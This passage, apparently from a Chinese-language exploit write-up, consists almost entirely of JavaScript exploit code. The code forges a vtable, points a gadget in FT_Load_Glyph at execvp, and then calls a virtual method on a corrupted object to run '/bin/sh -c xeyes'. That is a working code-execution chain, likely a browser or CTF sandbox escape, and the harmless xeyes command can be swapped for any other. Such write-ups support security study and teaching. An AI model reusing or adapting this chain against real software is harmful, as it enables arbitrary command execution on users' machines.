 具体实现：
```
        // int execvp(const char *file, char *const argv[]);
        // this is an adress of execvp@plt
        execvp_ptr = base_ptr + 0x8f79940n;

        // gadget_ptr sets rdi to "/bin/sh", rsi points to a good address when this gadget is called
        // 0x555557ef9ff9 <FT_Load_Glyph+121>:  mov    rdi,QWORD PTR [rax+0xb8]
        // 0x555557efa000 <FT_Load_Glyph+128>:  call   QWORD PTR [rdi+0x10]
        gadget_ptr = base_ptr + 0x29a5ff9n;

        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x28, gadget_ptr);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x10, execvp_ptr);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0xb8, str_ptr);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x58, str_ptr + 0x78n);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x60, str_ptr + 0x80n);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x68, str_ptr + 0x88n);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x70, 0n);
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x00, strToUint64('/bin/sh\x00'));
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x78, strToUint64('foo\x00'));
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x80, strToUint64('-c\x00'));
        fake_vtable_ptr = setUint64(fake_vtable_ptr, 0x88, strToUint64('xeyes\x00'));


        // 19. Call a virtual method. The vtable is fake so the gadget is called.
        await one_more_cat.setName(fake_vtable_ptr);
        name = setUint64(name, 0, str_ptr);
        //success("debug");
        //debug();
        await cats[A].setName(name);
        alert(await one_more_cat.setAge(str_ptr + 0x58n));
```